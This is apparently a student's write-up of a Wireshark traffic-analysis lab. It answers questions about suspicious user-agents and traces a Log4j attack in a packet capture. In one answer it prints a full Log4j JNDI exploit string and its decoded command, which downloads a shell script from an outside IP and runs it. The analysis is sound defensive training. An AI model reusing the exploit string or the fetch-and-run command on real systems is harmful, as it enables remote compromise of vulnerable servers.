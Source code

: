 There are 6 anomalous user-agents: Windows NT 6.4, nmap, Wfuzz, sqlmap, and Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0 (uploaded shell b374k.php), and log4j

*6*

  
What is the packet number with a subtle spelling difference in the user agent field?
Mozlila

![[Pasted image 20221212120046.png]]


*52*

  
Use the "Desktop/exercise-pcaps/http/http.pcapng" file.  
Locate the "Log4j" attack starting phase. What is the packet number?

http.request.method == "POST"

jndi , found packet 444
![[Pasted image 20221212120436.png]]


*444*
  
Locate the "Log4j" attack starting phase and decode the base64 command. What is the IP address contacted by the adversary? (Enter the address in defanged format and exclude "{}".)

```
found: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}

wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh

ip: 62.210.130.250

defanging ip: 62[.]210[.]130[.]250
```

*62[.]210[.]130[.]250*

###  Encrypted Protocol Analysis: Decrypting HTTPS

Decrypting HTTPS Traffic  

When investigating web traffic, analysts often run across encrypted traffic. This is caused by using the Hypertext Transfer Protocol Secure (HTTPS) protocol for enhanced security against spoofing, sniffing and intercepting attacks. HTTPS uses TLS protocol to encrypt communications, so it is impossible to decrypt the traffic and view the transferred data without having the encryption/decryption key pairs. As this protocol provides a good level of security for transmitting sensitive data, attackers and malicious websites also use HTTPS. Therefore, a security analyst should know how to use key files to decrypt encrypted traffic and investigate the traffic activity.

The packets will appear in different colours as the HTTP traffic is encrypted. Also, protocol and info details (actual URL address and data returned from the server) will not be fully visible. The first image below shows the HTTP packets encrypted with the TLS protocol. The second and third images demonstrate filtering HTTP packets without using a key log file.
